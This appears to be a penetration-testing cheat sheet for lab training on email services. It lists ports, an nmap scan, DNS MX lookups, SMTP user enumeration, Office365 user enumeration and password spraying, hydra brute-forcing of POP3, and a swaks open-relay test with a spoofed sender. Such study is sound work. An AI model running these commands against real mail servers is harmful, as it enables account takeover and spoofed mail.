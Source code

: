#email #SMTP #POP3 #IMAP4 #o365spray #swaks #mxtoolbox #smtp-user-enum

## Common Ports

|**Port**|**Service**|
|---|---|
|`TCP/25`|SMTP Unencrypted|
|`TCP/143`|IMAP4 Unencrypted|
|`TCP/110`|POP3 Unencrypted|
|`TCP/465`|SMTP Encrypted|
|`TCP/993`|IMAP4 Encrypted|
|`TCP/995`|POP3 Encrypted|

We can use `Nmap`'s default script `-sC` option to enumerate those ports on the target system:


```
nmap -Pn -sV -sC -p25,143,110,465,993,995 10.129.14.128
```

---
## Attacking Email Services

| **Command**                                                                                                                                             | **Description**                                                                        |
| ------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------- |
| `host -t MX microsoft.com`                                                                                                                              | DNS lookup for mail servers for the specified domain.                                  |
| `dig mx inlanefreight.com \| grep "MX" \| grep -v ";"`                                                                                                  | DNS lookup for mail servers for the specified domain.                                  |
| `host -t A mail1.inlanefreight.htb.`                                                                                                                    | DNS lookup of the IPv4 address for the specified subdomain.                            |
| `telnet 10.10.110.20 25`                                                                                                                                | Connect to the SMTP server.                                                            |
| `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7`                                                                           | SMTP user enumeration using the RCPT command against the specified host.               |
| `python3 o365spray.py --validate --domain msplaintext.xyz`                                                                                              | Verify the usage of Office365 for the specified domain.                                |
| `python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz`                                                                                     | Enumerate existing users using Office365 on the specified domain.                      |
| `python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz`                                         | Password spraying against a list of users that use Office365 for the specified domain. |
| `hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3`                                                                                               | Brute-forcing the POP3 service.                                                        |
| `swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server 10.10.11.213` | Testing the SMTP service for the open-relay vulnerability.                             |
| `nmap -p25 -Pn --script smtp-open-relay 10.10.11.213`                                                                                                   | SMTP open relay enumeration                                                            |
| `nmap -Pn -sV -sC -p25,143,110,465,993,995 10.129.14.128`                                                                                               | `Nmap` default scripts against default ports                                           |
|                                                                                                                                                         |                                                                                        |

---

